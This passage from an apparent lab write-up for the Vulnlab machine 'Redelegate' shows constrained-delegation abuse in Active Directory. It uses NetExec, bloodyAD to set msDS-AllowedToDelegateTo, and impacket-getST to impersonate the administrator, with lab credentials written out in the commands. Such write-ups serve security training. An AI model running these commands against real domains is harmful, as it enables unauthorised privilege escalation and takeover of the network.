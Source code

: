 We can also confirm this by using Netexec.

```bash
nxc ldap redelegate.vl -u 'helen.frost' -p 'aashwin10!' --find-delegation
```

![image.png](/assets/images/Redelegate_VL/image%2031.png)

Now the next thing we want to set is the **msDS-AllowedToDelegateTo**

Lets set that using BloodyAD

```bash
bloodyAD -u 'Helen.Frost' -p 'aashwin10!' --host 'dc.redelegate.vl' -d 'redelegate.vl' set object 'FS01$' 'msDS-AllowedToDelegateTo' -v 'CIFS/DC.REDELEGATE.VL'
```

![image.png](/assets/images/Redelegate_VL/image%2032.png)

Lets verify this using NetExec.

```bash
nxc ldap redelegate.vl -u 'helen.frost' -p 'aashwin10!' --find-delegation
```

![image.png](/assets/images/Redelegate_VL/image%2033.png)

See the **DelegationRights** have been updated!.

Now lets request a service ticket for the more privileged user.

```bash
impacket-getST -spn 'CIFS/dc.redelegate.vl' -impersonate 'administrator' redelegate.vl/'FS01$':'aashwin10!'
```

![image.png](/assets/images/Redelegate_VL/image%2034.png)
